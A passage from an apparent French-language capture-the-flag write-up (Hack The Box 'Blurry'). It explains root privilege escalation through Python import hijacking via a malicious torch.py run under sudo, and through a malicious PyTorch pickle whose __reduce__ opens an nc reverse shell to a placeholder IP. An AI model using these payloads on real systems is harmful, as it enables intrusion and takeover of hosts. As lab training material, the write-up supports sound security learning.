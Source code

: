 Dans `/models` nous trouvons deux fichiers `demo_model.pth`, et `evaluate_model.py`. Le script utilise `import sys` qui "fournit diverses fonctions et variables qui sont utilisées pour manipuler différentes parties de l'environnement d'exécution de Python.". _[Source](https://www.geeksforgeeks.org/python-sys-module/)_

Puisqu'il n'y a pas de spécifications liées au module, nous pourrions être en mesure de faire un détournement d'importation sous python.

![evaluate_model script import functions](/images/HTB-Blurry/evaluate_model_script.png)

Nous commençons par créer un script malveillant `torch.py`.

```
echo 'import os; os.system("bash")' > /models/torch.py
```

![Malicious torch.py](/images/HTB-Blurry/malicious_torch_py.png)

Ensuite, nous exécutons `evaluate_model` avec sudo.

```
sudo /usr/bin/evaluate_model /models/demo_model.pth
```

Un shell root est créé, nous permettant de lire le drapeau root situé dans `/root`.

![blurry root flag](/images/HTB-Blurry/blurry_root_flag.png)

#### Explication de l'exploitation

Lorsqu'un script Python importe un module (tel que `torch`), Python recherche le module à différents endroits, en commençant par le répertoire actuel (qui est `/models` dans notre cas). Puisque nous avons créé un fichier appelé `torch.py` dans le répertoire `/models`, Python importe notre script malveillant `torch.py` au lieu de la bibliothèque torch.

Après l'importation, notre fichier est exécuté et puisque le script (`evaluate_model.py`) est exécuté en tant que sudo, nous obtenons un shell root.

### Désérialisation Pickle

Nous pouvons également exploiter la cible via la désérialisation pickle. Utilisons un script python pour générer un fichier modèle malveillant.

```python
import torch
import torch.nn as nn
import torch.nn.functional as F
import os


class CustomModel(nn.Module):
    def __init__(self):
        super(CustomModel, self).__init__()
        self.linear = nn.Linear(512, 1)

    def forward(self, x):
        return self.linear(x)
    def __reduce__(self):
        return (os.system, ('echo Going for $USER on $HOSTNAME at $(date);rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc YOUR_IP PORT_NUMBER >/tmp/f',))

model = CustomModel()

torch.save(model, 'root.pth')
```
